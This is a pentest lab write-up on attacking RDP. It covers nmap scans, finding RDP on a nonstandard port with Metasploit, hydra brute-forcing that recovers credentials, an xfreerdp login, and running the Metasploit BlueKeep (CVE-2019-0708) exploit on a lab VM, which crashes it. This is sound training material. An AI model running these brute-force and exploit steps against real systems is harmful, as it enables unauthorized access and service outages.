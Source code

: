 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> * Target IP: `10.4.18.131`
> * **RDP** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV 10.0.17.61
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 17:54 IST
Nmap scan report for 10.0.17.61
Host is up (0.0021s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.33 seconds
```

{% hint style="info" %}
RDP can be configured to run on another port instead of the default port
{% endhint %}

> Port 3333 instead of port 3339 is open but no service due to port is not assigned to any services.

* Use Metasploit [rdp\_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp\_scanner/) module to check if port `3333` is running RDP.
* Useful when performing black-box penetration test

```bash
msf5 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)
```

<pre class="language-bash"><code class="lang-bash">msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.0.17.61
<strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333 # default port 3389
</strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > run
</code></pre>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>RDP Detected</p></figcaption></figure>

> The RDP is running on target port `3333`

### RDP Brute Force

* Use hydra to find the valid `username` and `password` by using the dictionary wordlists

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt
```

{% hint style="warning" %}
Make sure to adjust the speed when performing the real world penetration test using `-t <default 16>` to prevent Denial of Services (DOS) or crashing the `Windows` system.
{% endhint %}

```bash
sts/unix_passwords.txt rdp://10.0.17.61 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-30 18:12:55
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.0.17.61:3333/
[3333][rdp] host: 10.0.17.61   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-30 18:13:35
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In this case, `freerdp` cannot be used in this lab, the only RDP client that can be used is `xfreerdp`.

```bash
xfreerdp  /u:Administrator /p:qwertyuiop /v:10.0.17.61:3333
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `port-number-3333`
{% endhint %}

***

## Lab 2 - Blue Keep

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windows Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool:
> * Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)

{% hint style="danger" %}
Targeting Kernel space memory and apps can cause system crashes.
{% endhint %}

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn   
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 22:36 +08
Nmap scan report for 192.168.42.139
Host is up (0.0029s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Domain_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Computer_Name: WIN-8M9K4MEH6MB
|   DNS_Domain_Name: WIN-8M9K4MEH6MB
|   DNS_Computer_Name: WIN-8M9K4MEH6MB
|   Product_Version: 6.1.7600
|_  System_Time: 2024-07-04T14:37:17+00:00
| ssl-cert: Subject: commonName=WIN-8M9K4MEH6MB
| Not valid before: 2024-07-03T14:36:09
|_Not valid after:  2025-01-02T14:36:09
|_ssl-date: 2024-07-04T14:37:57+00:00; 0s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> RDP port 3389 is opened.

* Run `metasploit` auxiliary module to check the target expose to the BlueKeep vulnerability or not.

```bash
msfconsole
msf6 > search bluekeep
msf6 > use 0
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.42.139
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The target is vulnerable

### Exploitation

```bash
msf6 > use 3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.42.139
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> And boom it crashed&#x20;







